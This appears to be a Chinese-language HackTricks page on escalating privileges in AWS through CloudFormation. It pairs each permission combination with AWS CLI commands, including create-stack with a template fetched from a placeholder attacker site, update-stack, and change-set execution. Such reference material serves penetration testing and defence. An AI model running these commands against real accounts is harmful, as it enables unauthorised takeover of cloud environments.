 # AWS - Cloudformation 权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## cloudformation

有关cloudformation的更多信息，请查看：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

拥有 **`iam:PassRole`** 和 **`cloudformation:CreateStack`** 权限的攻击者可以通过创建一个CloudFormation模板来 **提升权限**，该模板将使用在创建CloudFormation堆栈时传递的 **角色的权限** 来执行操作和创建资源。
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
当攻击者的网站上的模板包含执行**恶意行为的指令，例如创建管理员用户**，然后使用这些凭证来提升他们自己的访问权限。

在以下页面中，您有一个**利用示例**，附加权限为**`cloudformation:DescribeStacks`**：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在影响：**提升至指定的cloudformation服务角色权限。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

在这种情况下，您可以**滥用现有的cloudformation堆栈**，更新它并像前一个场景一样提升权限：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来**给自己 `UpdateStack` 权限**，并对栈执行攻击。

**潜在影响：**提升至指定的 cloudformation 服务角色权限。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

如果你拥有这个权限，但**没有 `iam:PassRole`**，你仍然可以**更新栈**，并滥用它们已经附加的**IAM 角色**。检查前一节的利用示例（更新时不要指定任何角色）。

`cloudformation:SetStackPolicy` 权限可以用来**给自己 `UpdateStack` 权限**，并对栈执行攻击。

**潜在影响：**提升至已附加的 cloudformation 服务角色权限。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

拥有**传递角色以及创建和执行 ChangeSet 权限**的攻击者可以**创建/更新新的 cloudformation 栈，滥用 cloudformation 服务角色**，就像使用 CreateStack 或 UpdateStack 一样。

以下利用是**CreateStack 利用的**[**变体**](./#iam-passrole-cloudformation-createstack)，使用**ChangeSet 权限**来创建栈。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来**给自己 `ChangeSet` 权限**，并执行攻击。

**潜在影响：** 提升至 cloudformation 服务角色的权限。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

这种方法类似于之前的方法，不通过传递 **IAM 角色**，所以你可以直接**滥用已经附加的角色**，只需修改参数：
```
--change-set-type UPDATE
```
**潜在影响：** 提升至已连接的cloudformation服务角色权限。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻击者可以滥用这些权限来创建/更新StackSets，以滥用任意cloudformation角色。

**潜在影响：** 提升至cloudformation服务角色权限。

### `cloudformation:UpdateStackSet`

攻击者可以在没有passRole权限的情况下滥用此权限，更新StackSets以滥用已连接的cloudformation角色。

**潜在影响：** 提升至已连接的cloudformation角色权限。

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>
